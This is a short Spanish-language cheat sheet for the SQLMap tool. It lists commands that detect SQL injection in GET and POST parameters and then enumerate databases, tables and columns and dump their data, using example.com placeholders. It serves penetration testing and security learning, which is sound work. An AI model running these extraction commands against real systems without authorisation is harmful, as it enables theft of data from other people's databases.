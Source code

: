 ```yaml
---
title: "SQLMap"
tags: [ "sql", "exploit"]
---
```


# SQLMap
SQLMap es una herramienta de explotación de inyecciones SQL. Ayuda a detectar y explotar inyecciones SQL en aplicaciones web.

[Repositorio oficial](https://github.com/sqlmapproject/sqlmap)
[Wiki con ejemplos](https://github.com/sqlmapproject/sqlmap/wiki/Usage)


# Detectar inyecciones SQL
## Analizar URLs 
Detectar parámetros inyectables en parametros GET
```bash
sqlmap -u "http://example.com/?id=1" 
```

También se podría utilizar la opción `-p` para indicar el parámetro a analizar.
```bash
sqlmap -u "http://example.com/" -p "id" 
```

O como no, para métodos POST
```bash
sqlmap -u "http://example.com/" --data "id=1" 
```


# Explotar inyecciones SQL

Obtener información de la base de datos
```bash
sqlmap -u "http://example.com/?id=1" --dbs
```

Obtener tablas de la base de datos
```bash
sqlmap -u "http://example.com/?id=1" -D "database" --tables
```

Obtener columnas de una tabla
```bash
sqlmap -u "http://example.com/?id=1" -D "database" -T "table" --columns
```

Obtener datos de una tabla
```bash
sqlmap -u "http://example.com/?id=1" -D "database" -T "table" -C "column1,column2" --dump
```

Obtener datos de todas las tablas
```bash
sqlmap -u "http://example.com/?id=1" -D "database" --dump-all
```



